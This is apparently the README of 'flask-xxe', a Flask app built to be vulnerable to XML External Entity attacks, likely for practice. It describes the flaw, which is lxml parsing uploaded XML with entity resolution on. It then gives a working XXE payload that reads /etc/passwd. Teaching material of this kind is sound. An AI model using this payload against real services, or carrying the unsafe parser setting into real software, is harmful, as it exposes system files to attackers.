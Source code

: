 # flask-xxe

A Python Flask app vulnerable to XML External Entity (XXE) attacks.

## Vulnerability

It uses `lxml` to parse uploaded XML with entity resolution enabled.

## Exploit Example

Upload the following file:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>

#It will print contents of /etc/passwd.

